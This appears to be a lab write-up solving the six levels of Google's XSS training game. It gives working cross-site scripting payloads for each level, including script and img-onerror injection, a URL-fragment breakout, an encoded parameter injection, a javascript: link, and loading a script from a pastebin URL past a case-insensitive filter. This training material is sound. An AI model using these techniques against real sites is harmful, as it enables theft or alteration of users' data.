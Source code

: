 # Introduction
Cross-site scripting (XSS) bugs are one of the most common and dangerous types of vulnerabilities in Web applications. These nasty buggers can allow your enemies to steal or modify user data in your apps and you must learn to dispatch them, pronto!

At Google, we know very well how important these bugs are. In fact, Google is so serious about finding and fixing XSS issues that we are paying mercenaries up to $7,500 for dangerous XSS bugs discovered in our most sensitive products.

In this training program, you will learn to find and exploit XSS bugs. You'll use this knowledge to confuse and infuriate your adversaries by preventing such bugs from happening in your applications.

There will be cake at the end of the test.

## Level 1 - Hello, world of XSS
The input form is not sanitized, so if we insert `<script>alert('done')</script>` we will have our script injected.
## Level 2 - Persistence is key
This time, we can't insert `<script>` elements, as it seems to be sanitized by the web, so we can use `<img>` instead with `onerror` attribute.

`<img src="x" onerror="alert('done')"/>` this way, the browser will try to parse a picture, but as is not existent, on error will execute the script.
## Level 3 - That sinking feeling
Here we can't enter text, so we have to play with the URL.

```
window.onload = function() { 
        chooseTab(unescape(self.location.hash.substr(1)) || "1");
      }
```
Looking at the source code from above, we can see that if not URL fragment identifier exists `#`, it will point first to the image one `#1`, if we enter `#2` we'll go to the second image and so.

We can see this line inside the function `chooseTab(num)` 
` html += "<img src='/static/level3/cloud" + num + ".jpg' />";`
we can escape the `src` attribute by writing `'` after the `#` in the url, followed by an `onerror` cause cause no image will be found and we can comment out the .jpg end with `//`.

The url to visit would be this `https://xss-game.appspot.com/level3/frame#' onerror="alert('done')";//`

## Level 4 - Context matters
Here we can both inject the script in the form or in the url.
The function we are playing with is this one `<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />`
We can input in the form `');alert('done');var x=('`, if we want to insert it into the URL we'd have to encode it. `%27%29%3Balert%28%27done%27%29%3Bvar%20b%3D%28%27` and add it to the URL, in the timer GET parameter, i.e., `https://xss-game.appspot.com/level4/frame?timer=%27%29%3Balert%28%27done%27%29%3Bvar%20b%3D%28%27`

## Level 5 - Breaking protocol
After we click the `Sign up` link, we get into the signup.html page, where we get a predefined value for the parameter next=confirm, if we check the sourcecode `<a href="{{ next }}"> Next >></a>` we can see that the link we get to after clicking next is the next parameter value, so we can do like with **bookmarklets** and add a javascript:function() code to it.
`javascript:alert('done');`

## Level 6 - Follow the :rabbit:
Here, we can see that the webpage tries to load the "gadget" from whatever is after the # (the fragment identifier).

If we read the sourcecode we can see that the the function uses a insensitive case regex for limiting "http/s" connections, but we can bypass this just changing one letter to uppercase, or using // without http, which takes the parentory protocol.

And for hosting the code, we can use a raw pastebin or just use the `google.com/jsrapi?callback=alert('done')` function.

the url would be `https://xss-game.appspot.com/level6/frame#//pastebin.com/raw/R2wQuFMg`

<pre>                                                         -oooo:-                                                        
                                                        omhsoosho`                                                      
                                                        Ndo:``:oh-                                                      
                                                        dms+--+ym:                                                      
                                                        -ymhohdh+`                                                      
                                                         `N/`.s.                                                        
                                                          +:  +                                                         
                                                          --  :                                                         
                                                          --  o                                                         
                                                          ..  +                                                         
                                                          ::  s        ..`                                              
                                                .:sssso.  --  +     :syhhyo`                                            
                                ..::::.       `odhhyyhdd. ::  s    .mhhyhhdh.       -:...`                              
                               /dhhhhhhs     .odddhyhdddh+y:  my-syhdhhyhhddy/`   .odhyyhh:                             
                              yNdhyyoyhmo+::+ms/+++//++/odm:  NNmNd+///+++/+ody::omhyssyhdm-                            
                            -sddyyyyyyyoommmmmmdhyyyyyyhddd: `ddmdmdhyssyyhhmmNNNNdhyyyyyhmo-`                          
                        ``-omdyyyssys///shdddddddddmmdddhyy-``yhddddhhhhhdmmmmmmdd/oyssyyyyhmhss-`                      
                     `:ohhdmddhhyyyyyshddddhhyyyyyhddhhyo:-...--shhyysssyyhhdhhhddyyysyyyhdddmNNmyo.                    
                    /hNNmmd/:o+/////:`/osyhhyyys+syyhhyysysooossyyyyyooyyyyyyysyy+./oooooos/:ydNNmNmo.                  
                   +dNmmmmmhoo+///////oossshhyyyyyyyyssoossoosoosssyyyyyyyhsoyyyys/:-..--:/+sdddmmmNMy                  
                  `hNmmdmmdmddddhhhyhysso+.oyssssso-./o:-/+oo++oo--osoooooo..oyyhyyyyyyhhhyhdddmmdmNNN                  
                  `yNmNNhhdmdddhhhyyyyyyys:-......`./+++/:o++oo++/-````..::/+sysysyyyhsshhhydddmmmNNNN                  
                   sMNNNNNNmmdmdhhhhyyyyyyhhssssoo+oo/+//:/+//+:++++ooosyooyssosyyhhyhsshdhdmmNmNmmMMN                  
                   -NNNNNNhmNmdmmmdddddmhhhyyyyssys///+/:://////o+osoo+osoossosyhhdddh+omddmNNmmNmNMMN                  
                   oMNNNNNNNNdydNmmmmmdhydhhsoooodhydhsshys+soyooooosssyhyhymdhdhyddmmmdmNNNNNNmNNNMMM                  
                   yMMNNNMmmNdmmNNNNNNmh/sysyysyhyddmhhyhyhhddyyyhmddhhdmdddmmmdmmmmNNmmmNmNNNNmMNMMMM                  
                  .dMMNNMMNNNmNNNNNNmmNNhsddddNNdmhdmddyyhdhdhdddhdmhhdddhmddmmmNNNNNNNNNNNNNNNNMNMMMM                  
                  :NMMMNMMNMNhhmNNNNmdmNNmhddmdNmmmmmmddddNmdhdhddddmddmmmmmmNdNmdmmNNNmNNNNNdmMMMMMMM                  
                  -mMMMMMNNmNNmNNNNNNNNNNNdmmNmNmNmNmmNNmmNNdhddmmmmNmhhhyohNMNMNmmmmNdmNNMMMNNMMMMMMM                  
                  .dMMMMMMNNNMMMMMNNNNNMNmmmNNNmmmmNNdddmmNNNmmdNNmNNNmmNNNNNNNNNNNNNNNmNNNNNmNMMMMMMM                  
                  :NMMMMMMMMMMMMMMMNmmNMNNNNNNNmmNmNNNNmdmNNNNNNNmNNdmNNMMNMmNNNNNNMMNdmNNNMNmmMMMMMMM                  
                  :NNMMMMMMMMMMMMMMMMNNMNNMNNNMMMNNNNNNmNmdmmmNNNNNNmmNNNNNNNNNNMNNMMMNNNNMMNmMMMMNNMN                  
                  :NMMMNNMMMMMMMMMMMMMNNMMMMNMMMNmNNMNNNNNmhNMNNMNNNMMNMMMMMNNMMNNNMNMMMMNMMNNMMNMNMMM                  
                  `hMMMNdMNNMNNNNNMMNNNNMMMMMMMMNmNMMMMNNNNNNNdmmmMNMMMMMMNNMMNmdNMMNMNNNNMNmmNMNMMMMN                  
                   yMMMMNMMNMNmmNNNMNmddmMMNNNMNNNNNMMNNNNMNNNNNNNmNNNNNNNNNNNNNddNdmdmmNNMNNdMMMMMMMN                  
                   yMMMMNMNMMNNMMNNNNmdmmNMNNdhmMNNNNNNmNMMddddmNNNmNNMMNmNmmmmmNNmmmmNMMMMMMNNNMMMMMN                  
                   yNNNMMNNMMMMMMNNNNNMmmdNNNNNNNNNNNNmNNNNNmNmmNNNNNNNNNNNmNmNNNNNNNNNNNNNMMMNNMMMMMy                  
                   +MMMMMMMMMMMNNNNMMMNNNNmNNNMNMNNMNNmhdNNNNNmNNNmmNNNNNNNNNNNMMNNmNNNNNMNMNMMMMMMMN:                  
                    NMMMMNMMMMMMMNNNNNNdNMNNNNNNmNNNNNNNNNmmhNNNNmdNNNNNNNNNMMNNMNNNNNNNNNMMMMNNMMMNs`                  
                    -sdmNMNNMMMMMNNNNmmmmNNNMNmNMNNNNNNNMNmNNNNNNmmmdmNNNMNmmmmNMNNMNMmmNNMMMNMNmd+-`                   
                      `.ohNNMMNMMNMNNmdmNNNNNNmNMNNMNNNNmNNNmmmNmNMMNNMNNMMNNNNNNNNNNMMMMMMMNNho.`                      
                          :+hdNNNNNNNNNNNNNNmNNNNNNNMNNNmNNNNmMmmmNNNMNNNNNNNNMNNMMMMMNNmdds/-                          
                             `--:+shddmmNmmmmNNNNMNNNMNNNNNNNNNNMMNMMMNNNmNNNMNNNNdh++/-.`                              
                                     `--++osdddddddysNmmhshmmmmmNmddddddho/:++/---                                      
                                                    `-.-. .------.                                 

    </pre>
